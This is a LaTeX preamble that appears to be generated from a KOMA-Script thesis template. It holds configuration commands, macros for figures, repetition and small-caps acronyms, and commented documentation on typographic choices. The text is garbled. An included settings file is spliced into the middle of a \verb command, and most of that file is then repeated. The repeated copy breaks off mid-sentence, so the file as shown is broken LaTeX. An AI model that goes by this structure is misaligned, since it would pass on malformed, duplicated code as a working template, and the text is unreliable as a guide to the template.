\newcommand{\mypapersize}{A4}
%% e.g., "A4", "letter", "legal", "executive", ...
%% The size of the paper of the resulting PDF file.

\newcommand{\mylaterality}{twoside}
%% "oneside" or "twoside"
%% Either you are creating a document which is printed on both, left pages
%% and right pages (twoside) or you create a document which is printed
%% on right pages only (oneside).

\newcommand{\mydraft}{false}
%% "true" or "false"
%% Use draft mode? If true, included graphics are replaced by empty
%% rectangles (of same size) and overfull boxes (in margin space) are
%% marked with black box (-> easy to spot!)

\newcommand{\myparskip}{half}
%% e.g., "no", "full", "half", ...
%% How to separate paragraphs: indention ("no") or spacing ("half",
%% "full", ...).

\newcommand{\myBCOR}{0mm}
%% Inner binding correction. This value depends on the method which is
%% being used to bind your printed result. Some techniques do not
%% require a binding correction at all ("0mm"), other require for
%% example "5mm". Refer to KOMA script documentation for a detailed
%% explanation what a binding correction is and how to measure it.

\newcommand{\myfontsize}{12pt}
%% e.g., 10pt, 11pt, 12pt
%% The font size of the main text in pt (points).

\newcommand{\mylinespread}{1.0}
%% e.g., 1.0, 1.5, 2.0
%% Line spacing in %/100. For example 1.5 means 150% of the usual line
%% spacing. Please use with caution: 100% ("1.0") is fine because the
%% font was designed for it.

\newcommand{\mylanguage}{ngerman,american}
%% "english,ngerman", "ngerman,english", ...
%% NOTE: The *last* language is the active one!
%% See babel documentation for further details.

%% BibLaTeX-settings: (see biblatex reference for further description)
\newcommand{\mybiblatexstyle}{authoryear}
%% e.g., "alphabetic", "authoryear", ...
%% The biblatex style which is being used for referencing. See
%% biblatex documentation for further details and more values.
%%
%% CAUTION: if you change the style, please check for (in)compatible
%%          "biblatex" package options in the file
%%          "template/preamble.tex"! For example: "alphabetic" does
%%          not have an option "dashed=..." and causes an error if it
%%          does not get removed from the list of options.

\newcommand{\mybiblatexdashed}{false}  %% "true" or "false"
%% If true: replace recurring reference authors with a dash.

\newcommand{\mybiblatexbackref}{true}  %% "true" or "false"
%% If true: create backward links from reference to citations.

\newcommand{\mybiblatexfile}{references-biblatex.bib}
%% Name of the biblatex file that holds the references.

\newcommand{\mydispositioncolor}{30,103,182}
%% e.g., "30,103,182" (blue/turquois), "0,0,0" (black), ...
%% Color of the headings and so forth in RGB (red,green,blue) values.
%% NOTE: if you are using "0,0,0" for black, printers might still
%%       recognize pages as color pages. In case this is a problem
%%       (paying for color print-outs vs. paying for b/w-printouts)
%%       please edit file "template/preamble.tex" and change
%%       "\definecolor{DispositionColor}{RGB}{\mydispositioncolor}"
%%       to "\definecolor{DispositionColor}{gray}{0}" and thus
%%       overwriting the value of \mydispositioncolor above.

\newcommand{\mycolorlinks}{true}  %% "true" or "false"
%% Enables or disables colored links (hyperref package).

\newcommand{\mytitlepage}{template/title_Thesis_TU_Graz}
%% Your own or one of following pre-defined title pages:
%% "template/title_plain_maketitle": simple maketitle page
%% "template/title_Diplomarbeit_KF_Uni_Graz.tex": fancy (german) title page for KF Uni Graz

\newcommand{\mytodonotesoptions}{}
%% e.g., "" (empty), "disable", ...
%% Options for the todonotes-package. If "disable", all todonotes will
%% be hidden (including listoftodos).

%% Load main settings for document preamble:
%% Time-stamp: <2018-03-11 14:25:47 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%

%doc% %% overriding preamble/preamble.tex %%
%doc% \newcommand{\mylinespread}{1.0}  \newcommand{\mycolorlinks}{true}
%doc% \documentclass[12pt,paper=a4,parskip=half,DIV=calc,oneside,%%
%doc% headinclude,footinclude=false,open=right,bibliography=totoc]{scrartcl}
%doc% \usepackage[utf8]{inputenc}\usepackage[ngerman,american]{babel}\usepackage{scrpage2}
%doc% \usepackage{ifthen}\usepackage{eurosym}\usepackage{xspace}\usepackage[usenames,dvipsnames]{xcolor}
%doc% \usepackage[protrusion=true,factor=900]{microtype}
%doc% \usepackage{enumitem}
%doc% \usepackage[pdftex]{graphicx}
%doc% \usepackage{todonotes}
%doc% \usepackage{dingbat,bbding} %% special characters
%doc% \definecolor{DispositionColor}{RGB}{30,103,182}
%doc%
%doc% \usepackage[backend=biber,style=authoryear,dashed=false,natbib=true,hyperref=true%%
%doc% ]{biblatex}
%doc%
%doc% \addbibresource{references-biblatex.bib} %% remove, if using BibTeX instead of biblatex
%doc%
%doc% %% overriding userdata %%
%doc% \newcommand{\myauthor}{Karl Voit}\newcommand{\mytitle}{LaTeX Template Documentation}
%doc% \newcommand{\mysubject}{A Comprehensive Guide to Use the
%doc% Template from https://github.com/novoid/LaTeX-KOMA-template}
%doc% \newcommand{\mykeywords}{LaTeX, pdflatex, template, documentation, biber, biblatex}
%doc%
%doc% \newcommand{\myLaT}{\LaTeX{}@TUG\xspace}
%doc%
%doc% %% for future use?
%doc% % \usepackage{filecontents}
%doc% % \begin{filecontents}{filename.example}
%doc% %
%doc% % \end{filecontents}
%doc%
%doc%
%doc% %% using existing TeX files %%
%doc% %% Time-stamp: <2015-04-30 17:19:58 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%

%doc%
%doc% \section{\texttt{mycommands.tex} --- various definitions}\myinteresting
%doc% \label{sec:mycommands}
%doc%
%doc% In file \verb#template/mycommands.tex# many useful commands are being
%doc% defined. 
%doc% 
%doc% \paragraph{What should I do with this file?} Please take a look at its 
%doc% content to get the most out of your document.
%doc% 

%doc% 
%doc% One of the best advantages of \LaTeX{} compared to \myacro{WYSIWYG} software products is
%doc% the possibility to define and use macros within text. This empowers the user to
%doc% a great extend.  Many things can be defined using \verb#\newcommand{}# and
%doc% automates repeating tasks. It is recommended to use macros not only for
%doc% repetitive tasks but also for separating form from content such as \myacro{CSS}
%doc% does for \myacro{XHTML}. Think of including graphics in your document: after
%doc% writing your book, you might want to change all captions to the upper side of
%doc% each figure. In this case you either have to modify all
%doc% \texttt{includegraphics} commands or you were clever enough to define something
%doc% like \verb#\myfig#\footnote{See below for a detailed description}. Using a
%doc% macro for including graphics enables you to modify the position caption on only
%doc% \emph{one} place: at the definition of the macro.
%doc% 
%doc% The following section describes some macros that came with this document template
%doc% from \myLaT and you are welcome to modify or extend them or to create
%doc% your own macros!
%doc% 

%doc% 
%doc% \subsection{\texttt{myfig} --- including graphics made easy}
%doc% 
%doc% The classic: you can easily add graphics to your document with \verb#\myfig#:
%doc% \begin{verbatim}
%doc%  \myfig{flower}%% filename w/o extension in the folder figures
%doc%        {width=0.7\textwidth}%% maximum width/height, aspect ratio will be kept
%doc%        {This flower was photographed at my home town in 2010}%% caption
%doc%        {Home town flower}%% optional (short) caption for list of figures
%doc%        {fig:flower}%% label
%doc% \end{verbatim}
%doc% 
%doc% There are many advantages of this command (compared to manual
%doc% \texttt{figure} environments and \texttt{includegraphics} commands:
%doc% \begin{itemize}
%doc% \item consistent style throughout the whole document
%doc% \item easy to change; for example move caption on top
%doc% \item much less characters to type (faster, error prone)
%doc% \item less visual clutter in the \TeX{}-files
%doc% \end{itemize}
%doc% 
%doc% 
\newcommand{\myfig}[5]{
%% example:
% \myfig{}%% filename in figures folder
%       {width=0.5\textwidth,height=0.5\textheight}%% maximum width/height, aspect ratio will be kept
%       {}%% caption
%       {}%% optional (short) caption for list of figures
%       {}%% label
\begin{figure}%[htp]
  \centering
  \includegraphics[keepaspectratio,#2]{figures/#1}
  \caption[#4]{#3}
  \label{#5} %% NOTE: always label *after* caption!
\end{figure}
}


%doc% 
%doc% \subsection{\texttt{myclone} --- repeat things!}
%doc% 
%doc% Using \verb#\myclone[42]{foobar}# results the text \enquote{foobar} printed 42 times.
%doc% But you can not only repeat text output with \texttt{myclone}. 
%doc%
%doc% Default argument
%doc% for the optional parameter \enquote{number of times} (like \enquote{42} in the example above) 
%doc% is set to two.
%doc% 
%% \myclone[x]{text}
\newcounter{myclonecnt}
\newcommand{\myclone}[2][2]{%
  \setcounter{myclonecnt}{#1}%
  \whiledo{\value{myclonecnt}>0}{#2\addtocounter{myclonecnt}{-1}}%
}

%old% %d oc% 
%old% %d oc% \subsection{\texttt{fixxme} --- sidemark something as unfinished}
%old% %d oc% 
%old% %d oc% You know it: something has to be fixed and you can not do it right
%old% %d oc% now. In order to \texttt{not} forget about it, you might want to add a
%old% %d oc% note like \verb+\fixxme{check again}+ which inserts a note on the page
%old% %d oc% margin such as this\fixxme{check again} example.
%old% %d oc%
%old% \newcommand{\fixxme}[1]{%%
%old% \textcolor{red}{FIXXME}\marginpar{\textcolor{red}{#1}}%%
%old% }


%%%% End 
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':

%doc% %%%% Time-stamp: <2015-08-22 17:20:32 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%
%doc%
%doc% \section{\texttt{typographic\_settings.tex} --- Typographic finetuning}
%doc%
%doc% The settings of file \verb#template/typographic_settings.tex# contain
%doc% typographic finetuning related to things mentioned in literature.  The
%doc% settings in this file relates to personal taste and most of all: 
%doc% \emph{typographic experience}. 
%doc% 
%doc% \paragraph{What should I do with this file?} You might as well skip the whole
%doc% file by excluding the \verb#%%%% Time-stamp: <2015-08-22 17:20:32 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%
%doc%
%doc% \section{\texttt{typographic\_settings.tex} --- Typographic finetuning}
%doc%
%doc% The settings of file \verb#template/typographic_settings.tex# contain
%doc% typographic finetuning related to things mentioned in literature.  The
%doc% settings in this file relates to personal taste and most of all: 
%doc% \emph{typographic experience}. 
%doc% 
%doc% \paragraph{What should I do with this file?} You might as well skip the whole
%doc% file by excluding the \verb#\input{template/typographic_settings.tex}# command
%doc% in \texttt{main.tex}.  For standard usage it is recommended to stay with the
%doc% default settings.
%doc% 
%doc% 
%% ========================================================================

%doc%
%doc% Some basic microtypographic settings are provided by the
%doc% \texttt{microtype}
%doc% package\footnote{\url{http://ctan.org/pkg/microtype}}. This template
%doc% uses the rather conservative package parameters: \texttt{protrusion=true,factor=900}.
\usepackage[protrusion=true,factor=900]{microtype}

%doc%
%doc% \subsection{French spacing}
%doc%
%doc% \paragraph{Why?} see~\textcite[p.\,28, p.\,30]{Bringhurst1993}: `2.1.4 Use a single word space between sentences.'
%doc%
%doc% \paragraph{How?} see~\textcite[p.\,185]{Eijkhout2008}:\\
%doc% \verb#\frenchspacing  %% Macro to switch off extra space after punctuation.# \\
\frenchspacing  %% Macro to switch off extra space after punctuation.
%doc%
%doc% Note: This setting might be default for \myacro{KOMA} script.
%doc%


%doc%
%doc% \subsection{Font}
%doc% 
%doc% This template is using the Palatino font (package \texttt{mathpazo}) which results
%doc% in a legible document and matching mathematical fonts for printout.
%doc% 
%doc% It is highly recommended that you either stick to the Palatino font or use the
%doc% \LaTeX{} default fonts (by removing the package \texttt{mathpazo}).
%doc% 
%doc% Chosing different fonts is not
%doc% an easy task. Please leave this to people with good knowledge on this subject.
%doc% 
%doc% One valid reason to change the default fonts is when your document is mainly
%doc% read on a computer screen. In this case it is recommended to switch to a font
%doc% \textsf{which is sans-serif like this}. This template contains several alternative
%doc% font packages which can be activated in this file.
%doc% 

% for changing the default font, please go to the next subsection!

%doc%
%doc% \subsection{Text figures}
%doc% 
%doc% \ldots also called old style numbers such as 0123456789. 
%doc% (German: \enquote{Mediäval\-ziffern\footnote{\url{https://secure.wikimedia.org/wikibooks/de/wiki/LaTeX-W\%C3\%B6rterbuch:\_Medi\%C3\%A4valziffern}}})
%doc% \paragraph{Why?} see~\textcite[p.\,44f]{Bringhurst1993}: 
%doc% \begin{quote}
%doc% `3.2.1 If the font includes both text figures and titling figures, use
%doc%  titling figures only with full caps, and text figures in all other
%doc%  circumstances.'
%doc% \end{quote}
%doc% 
%doc% \paragraph{How?} 
%doc% Quoted from Wikibooks\footnote{\url{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Text\_figures\_.28.22old\_style.22\_numerals.29}}:
%doc% \begin{quote}
%doc% Some fonts do not have text figures built in; the textcomp package attempts to
%doc% remedy this by effectively generating text figures from the currently-selected
%doc% font. Put \verb#\usepackage{textcomp}# in your preamble. textcomp also allows you to
%doc% use decimal points, properly formatted dollar signs, etc. within
%doc% \verb#\oldstylenums{}#.
%doc% \end{quote}
%doc% \ldots but proposed \LaTeX{} method does not work out well. Instead use:\\
%doc% \verb#\usepackage{hfoldsty}#  (enables text figures using additional font) or \\
%doc% \verb#\usepackage[sc,osf]{mathpazo}# (switches to Palatino font with small caps and old style figures enabled).
%doc%
%\usepackage{hfoldsty}  %% enables text figures using additional font
%% ... OR use ...
\usepackage[sc,osf]{mathpazo} %% switches to Palatino with small caps and old style figures

%% Font selection from:
%%     http://www.matthiaspospiech.de/latex/vorlagen/allgemein/preambel/fonts/
%% use following lines *instead* of the mathpazo package above:
%% ===== Serif =========================================================
%% for Computer Modern (LaTeX default font), simply remove the mathpazo above
%\usepackage{charter}\linespread{1.05} %% Charter
%\usepackage{bookman}                  %% Bookman (laedt Avant Garde !!)
%\usepackage{newcent}                  %% New Century Schoolbook (laedt Avant Garde !!)
%% ===== Sans Serif ====================================================
%\renewcommand{\familydefault}{\sfdefault}  %% this one in *combination* with the default mathpazo package
%\usepackage{cmbright}                  %% CM-Bright (eigntlich eine Familie)
%\usepackage{tpslifonts}                %% tpslifonts % Font for Slides


%doc% 
%doc% \subsection{\texttt{myacro} --- Abbrevations using \textsc{small caps}}\myinteresting
%doc% \label{sec:myacro}
%doc% 
%doc% \paragraph{Why?} see~\textcite[p.\,45f]{Bringhurst1993}: `3.2.2 For abbrevations and
%doc% acronyms in the midst of normal text, use spaced small caps.'
%doc% 
%doc% \paragraph{How?} Using the predefined macro \verb#\myacro{}# for things like
%doc% \myacro{UNO} or \myacro{UNESCO} using \verb#\myacro{UNO}# or \verb#\myacro{UNESCO}#.
%doc% 
\DeclareRobustCommand{\myacro}[1]{\textsc{\lowercase{#1}}} %%  abbrevations using small caps


%doc% 
%doc% \subsection{Colorized headings and links}
%doc% 
%doc% This document template is able to generate an output that uses colorized
%doc% headings, captions, page numbers, and links. The color named `DispositionColor'
%doc% used in this document is defined near the definition of package \texttt{color}
%doc% in the preamble (see section~\ref{subsec:miscpackages}). The changes required
%doc% for headings, page numbers, and captions are defined here.
%doc% 
%doc% Settings for colored links are handled by the definitions of the
%doc% \texttt{hyperref} package (see section~\ref{sec:pdf}).
%doc% 
%\setheadsepline{.4pt}[\color{DispositionColor}]
\renewcommand{\headfont}{\normalfont\sffamily\color{DispositionColor}}
\renewcommand{\pnumfont}{\normalfont\sffamily\color{DispositionColor}}
\addtokomafont{disposition}{\color{DispositionColor}}
\addtokomafont{caption}{\color{DispositionColor}\footnotesize}
\addtokomafont{captionlabel}{\color{DispositionColor}}

%doc% 
%doc% \subsection{No figures or tables below footnotes}
%doc% 
%doc% \LaTeX{} places floating environments below footnotes if \texttt{b}
%doc% (bottom) is used as (default) placement algorithm. This is certainly
%doc% not appealing for most people and is deactivated in this template by
%doc% using the package \texttt{footmisc} with its option \texttt{bottom}.
%doc% 
%% see also: http://www.komascript.de/node/858 (German description)
\usepackage[bottom]{footmisc}

%doc% 
%doc% \subsection{Spacings of list environments}
%doc% 
%doc% By default, \LaTeX{} is using vertical spaces between items of enumerate, 
%doc% itemize and description environments. This is fine for multi-line items.
%doc% Many times, the user does just write single-line items where the larger
%doc% vertical space is inappropriate. The \href{http://ctan.org/pkg/enumitem}{enumitem}
%doc% package provides replacements for the pre-defined list environments and
%doc% offers many options to modify their appearances.
%doc% This template is using the package option for \texttt{noitemsep} which
%doc% mimimizes the vertical space between list items.
%doc% 
\usepackage{enumitem}
\setlist{noitemsep}   %% kills the space between items

%doc% 
%doc% \subsection{\texttt{csquotes} --- Correct quotation marks}\myinteresting
%doc% \label{sub:csquotes}
%doc% 
%doc% \emph{Never} use quotation marks found on your keyboard.
%doc% They end up in strange characters or false looking quotation marks.
%doc% 
%doc% In \LaTeX{} you are able to use typographically correct quotation marks. The package 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} offers you with 
%doc% \verb#\enquote{foobar}# a command to get correct quotation marks around \enquote{foobar}.
%doc% Please do check the package options in order to modify
%doc% its settings according to the language used\footnote{most of the time in 
%doc% combination with the language set in the options of the \texttt{babel} package}.
%doc% 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} is also recommended 
%doc% by \texttt{biblatex} (see Section~\ref{sec:references}). 
\usepackage[babel=true,strict=true,english=american,german=guillemets]{csquotes}

%doc% 
%doc% \subsection{Line spread}
%doc% 
%doc% If you have to enlarge the distance between two lines of text, you can
%doc% increase it using the \texttt{\mylinespread} command in \texttt{main.tex}. By default, it is
%doc% deactivated (set to 100~percent). Modify only with caution since it influences the
%doc% page layout and could lead to ugly looking documents.
\linespread{\mylinespread}

%doc% 
%doc% \subsection{Optional: Lines above and below the chapter head}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/node/24}{a method to
%doc% add lines above and below chapter head} which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%% Source: http://www.komascript.de/node/24
%disabled% %% 1st get a new command
%disabled% \newcommand*{\ORIGchapterheadstartvskip}{}%
%disabled% %% 2nd save the original definition to the new command
%disabled% \let\ORIGchapterheadstartvskip=\chapterheadstartvskip
%disabled% %% 3rd redefine the command using the saved original command
%disabled% \renewcommand*{\chapterheadstartvskip}{%
%disabled%   \ORIGchapterheadstartvskip
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled% }
%disabled% %% see above
%disabled% \newcommand*{\ORIGchapterheadendvskip}{}%
%disabled% \let\ORIGchapterheadendvskip=\chapterheadendvskip
%disabled% \renewcommand*{\chapterheadendvskip}{%
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled%   \ORIGchapterheadendvskip
%disabled% }

%doc% 
%doc% \subsection{Optional: Chapter thumbs}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/chapterthumbs-example}{a method to
%doc% add chapter thumbs} (in combination with the package \texttt{scrpage2}) which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%disabled% \makeatletter
%disabled% % Safty first
%disabled% \@ifundefined{chapter}{\let\chapter\undefined
%disabled%   \chapter must be defined to use chapter thumbs!}{%
%disabled%  
%disabled% % Two new commands for the width and height of the boxes with the
%disabled% % chapter number at the thumbs (use of commands instead of lengths
%disabled% % for sparing registers)
%disabled% \newcommand*{\chapterthumbwidth}{2em}
%disabled% \newcommand*{\chapterthumbheight}{1em}
%disabled%  
%disabled% % Two new commands for the colors of the box background and the
%disabled% % chapter numbers of the thumbs
%disabled% \newcommand*{\chapterthumbboxcolor}{black}
%disabled% \newcommand*{\chapterthumbtextcolor}{white}
%disabled%  
%disabled% % New command to set a chapter thumb. I'm using a group at this
%disabled% % command, because I'm changing the temporary dimension \@tempdima
%disabled% \newcommand*{\putchapterthumb}{%
%disabled%   \begingroup
%disabled%     \Large
%disabled%     % calculate the horizontal possition of the right paper border
%disabled%     % (I ignore \hoffset, because I interprete \hoffset moves the page
%disabled%     % at the paper e.g. if you are using cropmarks)
%disabled%     \setlength{\@tempdima}{\@oddheadshift}% (internal from scrpage2)
%disabled%     \setlength{\@tempdima}{-\@tempdima}%
%disabled%     \addtolength{\@tempdima}{\paperwidth}%
%disabled%     \addtolength{\@tempdima}{-\oddsidemargin}%
%disabled%     \addtolength{\@tempdima}{-1in}%
%disabled%     % putting the thumbs should not change the horizontal
%disabled%     % possition
%disabled%     \rlap{%
%disabled%       % move to the calculated horizontal possition
%disabled%       \hspace*{\@tempdima}%
%disabled%       % putting the thumbs should not change the vertical
%disabled%       % possition
%disabled%       \vbox to 0pt{%
%disabled%         % calculate the vertical possition of the thumbs (I ignore
%disabled%         % \voffset for the same reasons told above)
%disabled%         \setlength{\@tempdima}{\chapterthumbwidth}%
%disabled%         \multiply\@tempdima by\value{chapter}%
%disabled%         \addtolength{\@tempdima}{-\chapterthumbwidth}%
%disabled%         \addtolength{\@tempdima}{-\baselineskip}%
%disabled%         % move to the calculated vertical possition
%disabled%         \vspace*{\@tempdima}%
%disabled%         % put the thumbs left so the current horizontal possition
%disabled%         \llap{%
%disabled%           % and rotate them
%disabled%           \rotatebox{90}{\colorbox{\chapterthumbboxcolor}{%
%disabled%               \parbox[c][\chapterthumbheight][c]{\chapterthumbwidth}{%
%disabled%                 \centering
%disabled%                 \textcolor{\chapterthumbtextcolor}{%
%disabled%                   \strut\thechapter}\\
%disabled%               }%
%disabled%             }%
%disabled%           }%
%disabled%         }%
%disabled%         % avoid overfull \vbox messages
%disabled%         \vss
%disabled%       }%
%disabled%     }%
%disabled%   \endgroup
%disabled% }
%disabled%  
%disabled% % New command, which works like \lohead but also puts the thumbs (you
%disabled% % cannot use \ihead with this definition but you may change this, if
%disabled% % you use more internal scrpage2 commands)
%disabled% \newcommand*{\loheadwithchapterthumbs}[2][]{%
%disabled%   \lohead[\putchapterthumb#1]{\putchapterthumb#2}%
%disabled% }
%disabled%  
%disabled% % initial use
%disabled% \loheadwithchapterthumbs{}
%disabled% \pagestyle{scrheadings}
%disabled%  
%disabled% }
%disabled% \makeatother

%%%% END
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':
# command
%doc% in \texttt{main.tex}.  For standard usage it is recommended to stay with the
%doc% default settings.
%doc% 
%doc% 
%% ========================================================================

%doc%
%doc% Some basic microtypographic settings are provided by the
%doc% \texttt{microtype}
%doc% package\footnote{\url{http://ctan.org/pkg/microtype}}. This template
%doc% uses the rather conservative package parameters: \texttt{protrusion=true,factor=900}.
\usepackage[protrusion=true,factor=900]{microtype}

%doc%
%doc% \subsection{French spacing}
%doc%
%doc% \paragraph{Why?} see~\textcite[p.\,28, p.\,30]{Bringhurst1993}: `2.1.4 Use a single word space between sentences.'
%doc%
%doc% \paragraph{How?} see~\textcite[p.\,185]{Eijkhout2008}:\\
%doc% \verb#\frenchspacing  %% Macro to switch off extra space after punctuation.# \\
\frenchspacing  %% Macro to switch off extra space after punctuation.
%doc%
%doc% Note: This setting might be default for \myacro{KOMA} script.
%doc%


%doc%
%doc% \subsection{Font}
%doc% 
%doc% This template is using the Palatino font (package \texttt{mathpazo}) which results
%doc% in a legible document and matching mathematical fonts for printout.
%doc% 
%doc% It is highly recommended that you either stick to the Palatino font or use the
%doc% \LaTeX{} default fonts (by removing the package \texttt{mathpazo}).
%doc% 
%doc% Chosing different fonts is not
%doc% an easy task. Please leave this to people with good knowledge on this subject.
%doc% 
%doc% One valid reason to change the default fonts is when your document is mainly
%doc% read on a computer screen. In this case it is recommended to switch to a font
%doc% \textsf{which is sans-serif like this}. This template contains several alternative
%doc% font packages which can be activated in this file.
%doc% 

% for changing the default font, please go to the next subsection!

%doc%
%doc% \subsection{Text figures}
%doc% 
%doc% \ldots also called old style numbers such as 0123456789. 
%doc% (German: \enquote{Mediäval\-ziffern\footnote{\url{https://secure.wikimedia.org/wikibooks/de/wiki/LaTeX-W\%C3\%B6rterbuch:\_Medi\%C3\%A4valziffern}}})
%doc% \paragraph{Why?} see~\textcite[p.\,44f]{Bringhurst1993}: 
%doc% \begin{quote}
%doc% `3.2.1 If the font includes both text figures and titling figures, use
%doc%  titling figures only with full caps, and text figures in all other
%doc%  circumstances.'
%doc% \end{quote}
%doc% 
%doc% \paragraph{How?} 
%doc% Quoted from Wikibooks\footnote{\url{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Text\_figures\_.28.22old\_style.22\_numerals.29}}:
%doc% \begin{quote}
%doc% Some fonts do not have text figures built in; the textcomp package attempts to
%doc% remedy this by effectively generating text figures from the currently-selected
%doc% font. Put \verb#\usepackage{textcomp}# in your preamble. textcomp also allows you to
%doc% use decimal points, properly formatted dollar signs, etc. within
%doc% \verb#\oldstylenums{}#.
%doc% \end{quote}
%doc% \ldots but proposed \LaTeX{} method does not work out well. Instead use:\\
%doc% \verb#\usepackage{hfoldsty}#  (enables text figures using additional font) or \\
%doc% \verb#\usepackage[sc,osf]{mathpazo}# (switches to Palatino font with small caps and old style figures enabled).
%doc%
%\usepackage{hfoldsty}  %% enables text figures using additional font
%% ... OR use ...
\usepackage[sc,osf]{mathpazo} %% switches to Palatino with small caps and old style figures

%% Font selection from:
%%     http://www.matthiaspospiech.de/latex/vorlagen/allgemein/preambel/fonts/
%% use following lines *instead* of the mathpazo package above:
%% ===== Serif =========================================================
%% for Computer Modern (LaTeX default font), simply remove the mathpazo above
%\usepackage{charter}\linespread{1.05} %% Charter
%\usepackage{bookman}                  %% Bookman (laedt Avant Garde !!)
%\usepackage{newcent}                  %% New Century Schoolbook (laedt Avant Garde !!)
%% ===== Sans Serif ====================================================
%\renewcommand{\familydefault}{\sfdefault}  %% this one in *combination* with the default mathpazo package
%\usepackage{cmbright}                  %% CM-Bright (eigntlich eine Familie)
%\usepackage{tpslifonts}                %% tpslifonts % Font for Slides


%doc% 
%doc% \subsection{\texttt{myacro} --- Abbrevations using \textsc{small caps}}\myinteresting
%doc% \label{sec:myacro}
%doc% 
%doc% \paragraph{Why?} see~\textcite[p.\,45f]{Bringhurst1993}: `3.2.2 For abbrevations and
%doc% acronyms in the midst of normal text, use spaced small caps.'
%doc% 
%doc% \paragraph{How?} Using the predefined macro \verb#\myacro{}# for things like
%doc% \myacro{UNO} or \myacro{UNESCO} using \verb#\myacro{UNO}# or \verb#\myacro{UNESCO}#.
%doc% 
\DeclareRobustCommand{\myacro}[1]{\textsc{\lowercase{#1}}} %%  abbrevations using small caps


%doc% 
%doc% \subsection{Colorized headings and links}
%doc% 
%doc% This document template is able to generate an output that uses colorized
%doc% headings, captions, page numbers, and links. The color named `DispositionColor'
%doc% used in this document is defined near the definition of package \texttt{color}
%doc% in the preamble (see section~\ref{subsec:miscpackages}). The changes required
%doc% for headings, page numbers, and captions are defined here.
%doc% 
%doc% Settings for colored links are handled by the definitions of the
%doc% \texttt{hyperref} package (see section~\ref{sec:pdf}).
%doc% 
%\setheadsepline{.4pt}[\color{DispositionColor}]
\renewcommand{\headfont}{\normalfont\sffamily\color{DispositionColor}}
\renewcommand{\pnumfont}{\normalfont\sffamily\color{DispositionColor}}
\addtokomafont{disposition}{\color{DispositionColor}}
\addtokomafont{caption}{\color{DispositionColor}\footnotesize}
\addtokomafont{captionlabel}{\color{DispositionColor}}

%doc% 
%doc% \subsection{No figures or tables below footnotes}
%doc% 
%doc% \LaTeX{} places floating environments below footnotes if \texttt{b}
%doc% (bottom) is used as (default) placement algorithm. This is certainly
%doc% not appealing for most people and is deactivated in this template by
%doc% using the package \texttt{footmisc} with its option \texttt{bottom}.
%doc% 
%% see also: http://www.komascript.de/node/858 (German description)
\usepackage[bottom]{footmisc}

%doc% 
%doc% \subsection{Spacings of list environments}
%doc% 
%doc% By default, \LaTeX{} is using vertical spaces between items of enumerate, 
%doc% itemize and description environments. This is fine for multi-line items.
%doc% Many times, the user does just write single-line items where the larger
%doc% vertical space is inappropriate. The \href{http://ctan.org/pkg/enumitem}{enumitem}
%doc% package provides replacements for the pre-defined list environments and
%doc% offers many options to modify their appearances.
%doc% This template is using the package option for \texttt{noitemsep} which
%doc% mimimizes the vertical space between list items.
%doc% 
\usepackage{enumitem}
\setlist{noitemsep}   %% kills the space between items

%doc% 
%doc% \subsection{\texttt{csquotes} --- Correct quotation marks}\myinteresting
%doc% \label{sub:csquotes}
%doc% 
%doc% \emph{Never} use quotation marks found on your keyboard.
%doc% They end up in strange characters or false looking quotation marks.
%doc% 
%doc% In \LaTeX{} you are able to use typographically correct quotation marks. The package 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} offers you with 
%doc% \verb#\enquote{foobar}# a command to get correct quotation marks around \enquote{foobar}.
%doc% Please do check the package options in order to modify
%doc% its settings according to the language used\footnote{most of the time in 
%doc% combination with the language set in the options of the \texttt{babel} package}.
%doc% 
%doc% \href{http://www.ctan.org/pkg/csquotes}{\texttt{csquotes}} is also recommended 
%doc% by \texttt{biblatex} (see Section~\ref{sec:references}). 
\usepackage[babel=true,strict=true,english=american,german=guillemets]{csquotes}

%doc% 
%doc% \subsection{Line spread}
%doc% 
%doc% If you have to enlarge the distance between two lines of text, you can
%doc% increase it using the \texttt{\mylinespread} command in \texttt{main.tex}. By default, it is
%doc% deactivated (set to 100~percent). Modify only with caution since it influences the
%doc% page layout and could lead to ugly looking documents.
\linespread{\mylinespread}

%doc% 
%doc% \subsection{Optional: Lines above and below the chapter head}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/node/24}{a method to
